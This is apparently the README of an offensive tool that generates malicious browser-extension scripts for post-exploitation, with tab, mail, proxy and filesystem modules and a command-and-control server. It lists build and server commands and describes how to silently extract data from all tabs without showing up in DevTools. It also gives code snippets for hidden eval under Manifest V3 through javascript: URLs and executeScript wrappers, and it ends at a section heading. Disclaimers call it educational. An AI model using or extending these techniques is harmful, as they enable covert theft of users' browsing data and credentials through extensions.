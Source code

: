 # Maltensions
This is A BETA-Version for Maltensions -> Post-Exploitation methods inside any .extension



## How To Install/Test?
1. Select an Post-Exploitation module (i.e: tabs / mail / proxy / fs / etc).
2. Configure Post-Exploit arguments (args like cc-server and such).
3. Inject this module as script in background context (unpacked-mode / inside other extension with xss & such).

* Compile maltension JS file with (BETA VERSION ONLY - listens over localhost:8080):
```
python3 maltension.py -m mail tabs proxy fs 
```
* Run The simple C&C Server with (for example - listens on localhost:8080):
```
python3 server.py -p8080
```

## NOTES
* The output will be in malty folder under background.js filename.
* For more arguments & explanations, place the arg "--help" and see the results.  
* Look also at the modules folder JS files - that contains the real deal kinda :)
* THIS IS BETA VERSION only - mainly focuses on showing the techniques & such... so yes yes yes - coolish bugs and such might exists inside... but you're welcome to help & continue developing this while giving proper credits & such - Thanks!!! :)
* Please run inside some sadnbox or something like that, this tool is just for educational purposes only, author is not responsible for any damage.

## LEGAL DISCLAIMER 
Usage of Maltensions Tool for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

*For real - this is only for educational purposes & not for harm to be done anywhere!!!


## EXTRA INFO ON MODULES & SOME REQUIREMENTS

## Background extraction
1. Main Required permissions: tabs
2. The technique: Inject dynamic code to "steal" all info and return it back to background context with messaging, that way, users and sites aren't aware of data extraction (DevTools is empty), and the background context can send this data at arbtirary times when he is choosing to.
* Example code for dynamic execution:
```
chrome.tabs.executeScript(tabId= 1000, {code:"alert()", allFrames: true})
```

* In Manifest V3: tabs, scripting. 
* Even though mv3 doesn't natively support script execution - This is manifest-v3 compatible also (using function definition).  		
* Tracking newly opened tabs:
chrome.tabs.onCreated.addListener(e=>console.log("New tab opened, ID=" + e.id + ", JSON Printing:" + JSON.stringify(e)));


## Bonus - Hidden Eval techniques for MV3:

1. Dynamic code execution from background: 
 ```
 chrome.tabs.create({active: false, 
 	'url': 'javascript:eval("alert(\\"dynamic code executed!\\")")'});
 ```

 Then, from the newly opened page - the malicious extension can then post messages back to background to call specific API's as needed.
2. Also, another way is to inject eval/other inline executionable function & then add argument for that function:

```
	function dynamicExec(code) {
		eval(code);
	}
    var results = await chrome.scripting.executeScript({
      target: {
        tabId: tab.id,
      },
      func: dynamicExec,
      args: ["alert('Dynamic code executed!');"],
    });
```


## Proxy Communication
